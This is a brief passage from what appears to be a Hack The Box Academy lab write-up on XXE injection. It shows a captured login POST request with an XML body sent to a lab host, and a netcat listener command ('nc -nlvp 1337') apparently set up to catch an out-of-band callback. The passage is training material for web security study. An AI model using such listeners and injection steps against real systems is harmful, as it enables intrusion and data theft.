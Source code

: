 ![Burp Suite - Login POST](./assets/screenshots/web_service_and_api_attacks_xxe_injection_burpsuite_login_post.png)

```http
POST /api/login/ HTTP/1.1
Host: 10.129.202.133:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.202.133:3001/
Content-Type: text/plain;charset=UTF-8
Content-Length: 107
Origin: http://10.129.202.133:3001
DNT: 1
Connection: keep-alive
Sec-GPC: 1
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<root>
<email>test@mail.com</email>
<password>Test123</password>
</root>
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ nc -nlvp 1337

listening on [any] 1337 ...

[CONTINUE]
```
